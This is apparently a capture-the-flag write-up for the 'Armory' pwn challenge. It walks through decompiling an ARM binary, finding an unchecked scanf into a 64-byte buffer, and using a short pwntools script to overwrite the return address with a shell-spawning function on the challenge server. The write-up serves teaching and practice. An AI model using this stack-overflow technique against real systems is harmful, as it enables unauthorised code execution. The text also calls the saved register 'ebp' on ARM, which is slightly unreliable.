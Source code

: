 ![](images/img1.png)

**Armory Write-Up**

This is the second pwn challenge. We're given a binary file, let's reverse it. I use GHIDRA, and with the decompiler it was pretty easy:

![](images/img2.png)

Two things we can deduct here. As the program manipulates data using registers like *r0* and *r2*, this is an ARM program. Moreover, as you can see with the decompiler view, the program defines a char array of 64 bytes, asks to enter an input, and copies into a location with scanf. Hm, let's keep this in mind. Continuing going through functions, I found an evil function:

![](images/img3.png)

Oh, it just pops a shell. What a gift! To write the exploit, I used python with the lib pwntools, but before, I just took the address of the evil function using gdb:

```
storm at arch in ~/C/E/pwn
❯❯ gdb -q ./armory                                                                                                                                             [23:09:00]
Reading symbols from ./armory...(no debugging symbols found)...done.
gdb-peda$ p evil
$1 = {<text variable, no debug info>} 0x1052c <evil>
```

Here is my python script:
```
#!/usr/bin/python2.7
from pwn import *

r = remote('challenges.ecsc-teamfrance.fr', 4003) # creating the connection
r.recv() # receiving data
payload = 'A'*68 # overflow buffer + overwrite ebp
payload += str(p32(0x1052c)) # little endian addr of evil function
r.sendline(payload) # send the payload
r.interactive()
```

Why overflow the buffer + 4 bytes ? This is simply to overwrite the saved of ebp. Execute the program, and get the flag:

![](images/img4.png)